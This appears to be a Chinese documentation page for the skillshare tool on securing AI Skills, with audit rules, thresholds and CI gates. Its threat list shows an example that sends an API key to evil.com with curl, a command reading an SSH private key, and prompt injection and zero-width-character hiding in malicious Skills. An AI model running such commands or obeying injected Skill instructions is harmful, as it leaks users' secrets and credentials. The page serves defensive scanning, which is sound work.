

# 保护你的 Skill

AI Skill 功能强大 — 它们指示 AI 助手读取文件、执行命令并与你的系统交互。本指南将帮助你围绕 Skill 的安装与维护建立安全工作流程。

完整的命令参考请参见 [`audit`](/docs/reference/commands/audit)。

## 风险所在：AI Skill 供应链

与运行在沙盒运行时中的传统软件包不同，AI Skill 通过 AI 直接解读并执行的**自然语言指令**运作。一个被篡改的 Skill 可以指示 AI：

- 窃取密钥（`curl https://evil.com?key=$API_KEY`）
- 读取凭据（`cat ~/.ssh/id_rsa`）
- 通过 prompt injection 绕过安全行为
- 使用零宽 Unicode 字符隐藏恶意意图

:::caution

单个恶意 Skill 就能访问你的 AI 助手所能触及的一切 — 环境变量、SSH 密钥、云端凭据、源代码。自动化扫描能捕捉已知模式，但**人工审查仍不可或缺**。

详细的威胁模型与检测规则，请参见 [Why Security Scanning Matters](/docs/understand/audit-engine#why-security-scanning-matters)。

:::

## 纵深防御

没有任何一层能捕捉所有风险。请结合人工审查、自动化扫描、自定义策略与 CI/CD 关卡：

| 层级 | 工具 | 作用 |
|-------|------|-------------|
| **审查** | 人工 | 安装前阅读 SKILL.md — 检查是否存在可疑命令 |
| **审计** | `skillshare audit` | 自动化模式检测（100+ 条内置规则，5 个严重级别，6 个分析器） |
| **自定义规则** | `audit-rules.yaml` | 组织特定模式（内部密钥、白名单） |
| **CI/CD** | 流水线关卡 | 阻止引入高风险 Skill 的 PR |

### 供应链安全生命周期

安全检查点取决于 Skill 的安装方式（`--track` 还是常规安装）：



**关键设计：**
- **常规 Skill 安装/更新** — 审计在接受前运行；成功的安装/更新会写入 `file_hashes` 元数据
- **Tracked repo 安装关卡** — 全新的 `--track` 安装会在接受前对整个克隆的仓库进行审计
- **Tracked repo 更新关卡** — `skillshare update` 在 `git pull` 之后进行审计；达到/超过阈值的发现会在非交互模式下自动触发回滚
- **完整性验证范围** — 只有存在 `file_hashes` 元数据时，才会运行 `content-*` 哈希检查

## 安全检查清单

:::tip 三阶段检查清单

**安装前：**
- [ ] 审查 Source 仓库（star 数、贡献者、近期活跃度）
- [ ] 阅读 SKILL.md — 留意 `curl`、`wget`、`eval`、凭据路径
- [ ] 先进行 dry-run：`skillshare install <source> --dry-run`

**安装后：**
- [ ] 运行 `skillshare audit` 并审查所有发现
- [ ] 即使 Skill「通过」也要检查 HIGH/MEDIUM 级别的发现（默认阈值为 CRITICAL）
- [ ] 定期重新审计 — 新规则可能会捕捉到此前未检测到的模式

**面向团队：**
- [ ] 在配置中设置 `audit.block_threshold: HIGH`
- [ ] 为组织特定的密钥模式创建自定义规则
- [ ] 为共享 Skill 仓库的 CI 流水线添加审计
- [ ] 安排定期扫描（见下方 [Periodic Scanning](#periodic-scanning)）

:::

## 组织策略

### 阻止阈值

默认阈值只会阻止 `CRITICAL` 级别的发现。对于团队而言，建议使用更严格的阈值：

```yaml
# ~/.config/skillshare/config.yaml
audit:
  block_threshold: HIGH  # 阻止 HIGH 和 CRITICAL 级别的发现
```

这能捕捉混淆处理、破坏性命令，以及隐藏内容注入 — 这些模式在 Skill 文件中几乎总是恶意的。

### 自定义规则

添加组织特定的检测模式，常见用例包括：

- 内部 API key 格式（`corp-api-key-*`、`internal-token-*`）
- 禁止访问的域名或服务
- 为受信任的 CI 自动化抑制误报

```yaml
# ~/.config/skillshare/audit-rules.yaml
rules:
  - id: internal-token-leak
    severity: HIGH
    pattern: internal-token
    message: "Internal API token pattern detected"
    regex: '(?i)\b(corp-api-key|internal-token)-[A-Za-z0-9]{10,}\b'

  - id: destructive-commands-2
    severity: MEDIUM
    pattern: destructive-commands
    message: "Sudo usage (downgraded for CI automation)"
    regex: '(?i)\bsudo\s+'
```

完整的自定义规则参考（合并语义、禁用规则、排除模式），请参见 [`audit rules` — Custom Rules](/docs/reference/commands/audit-rules#custom-rules)。

### 定期扫描 {#periodic-scanning}

规则会不断演进 — 安装时干净的 Skill 之后可能会匹配到新增的规则。安排定期扫描：

```bash
# crontab：每周扫描所有 Skill，记录结果
0 9 * * 1 skillshare audit --json >> /var/log/skillshare-audit.json 2>&1
```

## CI/CD 集成

### 基础流水线关卡

```bash
# 如果任何 Skill 存在 HIGH 及以上级别的发现，则使流水线失败
skillshare audit --threshold high
# 退出码：0 = 干净，1 = 发现问题
```

### 真实案例：Skill Hub PR 验证

[skillshare-hub](https://github.com/runkids/skillshare-hub) 社区仓库使用 `skillshare audit` 作为 PR 关卡。每个修改 Skill 的 PR 都会被自动扫描，审计结果会以 PR 评论形式发布：

```yaml
# .github/workflows/validate-pr.yml（简化版）
name: Validate PR
on:
  pull_request:
    paths: ['skills/**']

jobs:
  audit:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - uses: runkids/setup-skillshare@v1
        with:
          source: ./skills
          audit: true
          audit-threshold: high
```

完整工作流程（包括 PR 评论报告和构件上传），请参见 [validate-pr.yml 源码](https://github.com/runkids/skillshare-hub/blob/main/.github/workflows/validate-pr.yml)。

更多 CI/CD 模式（SARIF 上传、严格配置、手动设置），请参见 [CI/CD Skill Validation recipe](/docs/how-to/recipes/ci-cd-skill-validation)。

## 另请参阅

- [`audit`](/docs/reference/commands/audit) — CLI 命令参考
- [`audit rules`](/docs/reference/commands/audit-rules) — 规则管理与自定义
- [Audit Engine](/docs/understand/audit-engine) — 引擎工作原理（威胁模型、风险评分、分级）
- [Best Practices](/docs/how-to/daily-tasks/best-practices) — 命名、组织与安全卫生
- [Project Setup](/docs/how-to/sharing/project-setup) — 项目范围的 Skill 配置
